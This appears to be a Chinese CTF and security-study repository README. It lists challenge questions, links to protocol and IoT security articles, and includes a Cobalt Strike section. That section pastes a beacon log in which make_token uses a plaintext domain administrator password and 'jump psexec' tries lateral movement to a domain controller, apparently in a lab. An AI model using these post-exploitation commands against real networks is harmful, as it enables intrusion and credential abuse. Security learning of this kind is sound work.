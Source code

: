 ## Q & A 提问
- FAQ.one
- Windows 本地怎样启环境 运行 angr，像 linux 启动 pwn 题目那样。。想迷宫爆破。 -- 想 win 下启动迷宫题目支持 nc/telnet 连接
- web JustUpload-v2  反序列化
- png_4 题目怎么做
- 你文件没了快打钱.zip -- smc 题目 ， 1.多次运行后 sp 错误。 2.怎样解码后 patch 出来。并且能运行。
- my_asm 怎样重写为asm并编译运行
- re怎样将ELF修改为无随机地址
- fmtarg ($ecx) 怎么写用 ecx
- Misc  run.zip 有密码的什么东西
  -  Challenges\@todo 1.png
- re: 鹏城锦标赛\工控-驱动\drive.zip
- re_iot: 钢铁行业锦标赛\06firmware_reverse
- pwn:  为什么patchelf后不能运行 _要买些东西吗
- pwn: pwntools怎样设置编码来输出中文 shctf call_call_would_backdoor。

### cobalt strike

- 都有权限浏览域控，为啥不能上线？

```sh
beacon> make_token tide1\administrator 1qaz@WSX
[*] Tasked beacon to create a token for tide1\administrator
beacon> jump psexec DC smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\msagent_ce) on DC via Service Control Manager (\\DC\ADMIN$\cc76326.exe)
[+] host called home, sent: 287632 bytes
[+] Impersonated T1-COMPUTER\test
[-] could not upload file: 53
[-] Could not open service control manager on DC: 1722
[-] Could not connect to pipe: 53
beacon> ls \\192.168.61.129\C$
[*] Tasked beacon to list files in \\192.168.61.129\C$
[+] host called home, sent: 37 bytes
[*] Listing: \\192.168.61.129\C$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     06/19/2023 06:28:52   $Recycle.Bin
          dir     06/19/2023 22:13:56   001.env.python-3.5.1-embed-amd64
```

## 综合利用

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

## TODO

exec 更改标准输入到 test
exec 1>test
whoami
cat test

# Articles

## QQ 群

829089482 赛事群

## 协议分析/Protocol/IoT

- [MQTT 安全分析](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247492664&idx=1&sn=e18c8c1e7209f6bacddb85397eab85c9)
- [协议分析 | Bluetooth 蓝牙协议栈技术初探](https://mp.weixin.qq.com/s/1pG6jnvt3aqPrz5Vl6FIqg)
- [基于树莓派的蓝牙协议抓包](https://mp.weixin.qq.com/s/ftaqzXcP23ATsCms1qfgHg)
- [协议分析 | 简析 ARP 欺骗](https://mp.weixin.qq.com/s/WyFPxxjSLF-diSUA-cTRZA)
- [协议分析 | 对一个 apk 协议的继续分析—libsgmain 反混淆与逆向](https://mp.weixin.qq.com/s/s06dvT056fqkENIYoEHZ3w)
- [协议分析 | 【app 渗透】破解 apk app 协议 测试接口等安全](https://mp.weixin.qq.com/s/jAzwLDjrIWhGSSYcA1PyYw)
- [协议分析 | SNMP | 手把手玩转路由器漏洞挖掘系列 - SNMP协议分析](https://mp.weixin.qq.com/s/cceDMM4dJbC_IpexrMO8jg)
- [TLS 1.2 协议解析流程学习（一）](https://mp.weixin.qq.com/s/DS3ZMVSlHvIV0wIDrrmHpg)
- [HLS 无损下载 B 站直播 | HLS 协议从入门到实践](https://www.bilibili.com/video/BV1yL411k7DK/)
- [USB | USB基础知识介绍](https://mp.weixin.qq.com/s/i9tJ1gMOyGiw-wwQQ-g_-w)
- [USB | 用协议分析仪直观理解USB传输的核心概念](https://mp.weixin.qq.com/s/FXM1Kf0KCaVPEJapLysj3Q)

---

- [IOT 设备常见配置文件加解密分析](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247496354&idx=1&sn=79f02dbebafeb18dfc3e962c489a560f)
- [Openwrt 进程间通信-Ubus](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247494791&idx=1&sn=58ce08c883a7056af29163db8fac83c4)
- [家用智能灯泡的控制功能安全测试](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247497263&idx=1&sn=7cd7b78de1b751434da43238495511c4)
- [CVE-2020-3331 思科 RV110W 路由器命令执行](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247492240&idx=1&sn=8bf9052411b68a17438006e846123cad)
- [EMUX 仿真 RV130 的栈溢出整型利用](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247495867&idx=1&sn=4fd1f76459a06039734f667417b5090f)
- [基于树莓派实现 IOT 流量抓取](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247492289&idx=1&sn=900759780e235368e5ec1ff54f6ac800)
- [固件符号表恢复](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247491846&idx=1&sn=b04846dbd9d5a72601f2469674f3c7d9)

## 网络安全/项目/毕业设计

[科普大作：等保、分保、关保、密评（附下载）](https://mp.weixin.qq.com/s/B6itiRBUkm8dSgX9VGBQgw)
[实验室 2023 届 本科优秀毕业设计展示一——操作系统实践、代码保护](https://mp.weixin.qq.com/s/C_Ias9xu02c1MpQo0CSzRQ)
[实验室 2023 届 本科优秀毕业设计展示二——网络安全](https://mp.weixin.qq.com/s/IIMm-h6Fxota7XfN_07OJg)
[实验室 2023 届 本科优秀毕业设计展示三——安全工具](https://mp.weixin.qq.com/s/UM-gCy9MIw9PQMN7X3ofyg)
[实验室 2023 届 本科优秀毕业设计展示四——应用安全](https://mp.weixin.qq.com/s/-qTDBayECI8i11n-W1GEBg)
[获奖！立项！结题！](https://mp.weixin.qq.com/s/Q6n8JZ1VGdiAnEZNJZdDYw)

